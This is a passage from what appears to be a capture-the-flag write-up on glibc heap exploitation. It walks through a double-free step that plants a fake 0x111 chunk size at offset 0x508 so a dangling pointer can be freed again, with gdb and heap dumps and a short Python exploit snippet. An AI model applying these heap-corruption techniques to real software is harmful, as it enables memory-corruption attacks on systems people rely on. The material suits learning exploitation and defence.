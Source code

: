 This may look exactly the same as the snapshot of the heap before, however there is one difference. Despite being free'd, we still have references to chunks 0, and 2 in our `chunks` array:

```
0x558e409ab060 <chunks>:        0x0000558e414844c0      0x0054696d616f6877
0x558e409ab070 <chunks+16>:     0x0000558e414849d0      0x0054696d616f6877
0x558e409ab080 <chunks+32>:     0x0000000000000000      0x0054696d616f6877
0x558e409ab090 <chunks+48>:     0x0000000000000000      0x0054696d616f6877
0x558e409ab0a0 <chunks+64>:     0x0000000000000000      0x0054696d616f6877
0x558e409ab0b0 <chunks+80>:     0x0000000000000000      0x0054696d616f6877
```

0 points the start of chunk 7, where it was chopped off from. And 2 points 0x500 bytes into the bigger chunk. What does this mean? Well this wouldn't normally be a problem, but since we have the ability to double-free any chunk we like, if chunk 2 LOOKED like an authentic chunk we could `free()` it again.

Since 2 points into the user-portion of the free `unsorted` chunk, if someone was to request an allocation with the size of the chunk, and then fill it with fake metadata at offset 0x500, you could make allocation 2 LOOK authentic.

This is exactly what we do next:

```py
alloc(4, 0x2000, b'A'*0x508 + p64(0x111))

sice(2)
sice(0)
```

We request an allocation that can be fulfilled by our free `unsorted` chunk, then we fill it up to 0x508 bytes deep with garbage. Then we provide a fake `size` of 0x111. This is enough to convince `free` that our chunk is valid, you can thank tcache for that :).

Now when we `free` 2, a chunk will be added to the tcache. Since 0 holds a pointer to the start of the `unsorted` chunk we can use that to `free` it again for further use.

After this point, our heap looks extremely familiar:

```
Allocated chunk | PREV_INUSE
Addr: 0x55dc4f720000
Size: 0x291

Allocated chunk | PREV_INUSE
Addr: 0x55dc4f720290
Size: 0x221

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x55dc4f7204b0
Size: 0x2011
fd: 0x7f6849936be0
bk: 0x7f6849936be0

Free chunk (tcache)
Addr: 0x55dc4f7224c0
Size: 0x110
fd: 0x00

Allocated chunk | PREV_INUSE
Addr: 0x55dc4f7225d0
Size: 0x111

Top chunk | PREV_INUSE
Addr: 0x55dc4f7226e0
Size: 0x1e921
```

